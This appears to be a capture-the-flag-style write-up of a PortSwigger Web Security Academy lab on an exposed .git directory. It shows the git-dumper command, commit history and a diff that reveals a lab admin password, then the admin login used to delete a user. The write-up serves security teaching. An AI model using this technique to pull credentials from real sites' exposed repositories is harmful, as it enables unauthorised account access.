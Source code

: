 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/54c347d8-4a9f-4dc1-9699-efc317c621f2)


## Overview :

- Virtually all websites are developed using some form of version control system, such as Git. By default, a Git project stores all of its version control data in a folder called `.git`.
- Occasionally, websites *expose this directory in the production environment*. In this case, you might be able to access it by simply browsing to /.git.

## Solution :

Once the website loads, check out the **.git** directory . ie - `https://<id>.web-security-academy.net/.git`. The page discloses some files like this,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fa9b30f0-7457-4f5b-8ce6-b4c3edef677a)

### Retreive the admin's password -

To analyse these .git files we can use a tool called ![Git-dumper](https://github.com/arthaud/git-dumper)

1. Use the command - `python3 git_dumper.py https://0a1e0026040c2e3f8297b0dc00ec003c.web-security-academy.net/.git  websecurity/.` to save the files along with the .git directory in the folder of our choice in our linux machine.
   
2. **git log** shows these two commit  logs.
```$git log```
```git
commit 63085ffc69c9cab7029684ec63ba9219cb96f851 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 19dd0c8f15df85cd3526e0d51e9f912d3e52c556
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

3. Running `git diff 19dd0c8f15df85cd3526e0d51e9f912d3e52c556 63085ffc69c9cab7029684ec63ba9219cb96f851` gives us the following result which contains the admin password which was removed - **administrator:kw9sxvjbf1eqp40vwm6d**.

```git
diff --git a/admin.conf b/admin.conf
index ec58905..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=kw9sxvjbf1eqp40vwm6d
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

### Login & delete user carlos -

Login as admin with the passwrod found.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6bf3cf90-07a6-4d06-a6fb-15474bbff796)

Go to the admin panel & delete user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bde96662-266a-4633-9c06-f4b7c4f86bde)




